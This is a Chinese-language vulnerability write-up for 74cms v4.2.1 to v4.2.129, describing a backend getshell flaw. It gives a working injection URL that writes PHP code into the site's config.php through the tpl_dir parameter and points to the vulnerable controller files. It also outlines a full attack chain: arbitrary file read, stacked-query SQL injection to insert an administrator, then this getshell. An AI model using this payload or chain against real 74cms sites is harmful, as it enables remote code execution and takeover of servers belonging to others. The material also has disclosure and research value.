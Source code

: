 ```yaml
---
title: "74cms v4.2.1 - v4.2.129-后台getshell漏洞"
id: zhfly2776
---
```


# 74cms v4.2.1-v4.2.129-后台getshell漏洞

## 0x00 前言

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

## 0x02漏洞演示

![image](../img/55a8dbd1825d4f385e18819760396d67.png)

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),' `shell:[http://74cms.test/Application/Home/Conf/config.php](http://74cms.test/Application/Home/Conf/config.php)

路径：\74cms\upload\Application\Home\Conf\config.php` 
```

![image](../img/f78ad077252a2f322080230242ab2590.png)

![image](../img/93d6eadf5a5e4550c50392efb0a0db2c.png)

## 0x03 漏洞原理

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
路径：74cms\upload\Application\Admin\Controller\TplController.class.php 
```

![image](../img/a1098a4f960dad07b04ba0ed1c576e39.png)

```
路径： 74cms\upload\Application\Common\Controller\BackendController.class.php 
```

![image](../img/766c48011574513991c9ca786ebabdd6.png)

## 0x04题外话-认真版getshell方法

认真版getshell方法：
实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。
首先利用-任意文件读取漏洞-读取系统中的hash值
然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户
在通过这个后台getshell漏洞
即可完成一套日穿

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm